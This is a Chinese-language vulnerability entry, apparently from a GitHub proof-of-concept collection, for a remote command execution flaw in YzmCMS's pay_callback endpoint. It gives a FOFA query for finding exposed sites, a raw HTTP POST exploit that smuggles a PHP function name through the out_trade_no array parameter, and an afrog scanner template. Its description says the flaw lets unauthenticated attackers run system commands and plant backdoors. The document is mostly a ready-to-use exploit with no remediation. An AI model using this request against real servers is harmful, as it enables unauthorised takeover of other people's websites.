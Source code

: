 # YzmCMS接口存在pay_callback远程命令执行

YzmCMS是一款基于YZMPHP开发的一套轻量级开源内容管理系统,YzmCMS简洁、安全、开源、免费,可运行在Linux、Windows、MacOSX、Solaris等各种平台上,专注为公司企业、个人站长快速建站提供解决方案。

## fofa

```
app="yzmcms"
```

## poc

```
POST /pay/index/pay_callback.html HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Accept-Encoding: gzip
Content-Type: application/x-www-form-urlencoded
 
out_trade_no[0]=eq&out_trade_no[1]=1&out_trade_no[2]=phpinfo
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407022240034.png)

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407022240702.png)



## afrog

```yaml
id: YzmCMS-pay_callback-RCE

info:
  name: YzmCMS pay_callback 远程命令执行漏洞
  author: Superhero
  severity: high
  description: |-
    fofa: app="yzmcms"
    YzmCMS /pay/index/pay_callback.html接口存在远程命令执行漏洞，未经身份验证的远程攻击者可利用此漏洞执行任意系统指令，写入后门文件，最终可获取服务器权限。
  reference:
    - https://blog.csdn.net/m0_60571842/article/details/140112191
  tags: RCE
  

rules:
  r0:
    request:
      method: POST
      path: /pay/index/pay_callback.html
      headers:
        Content-Type: application/x-www-form-urlencoded
      body: out_trade_no[0]=eq&out_trade_no[1]=1&out_trade_no[2]=phpinfo
    expression: response.status == 200 && response.body.bcontains(b'phpinfo()') && response.body.bcontains(b'PHP Version')

expression: r0() 

```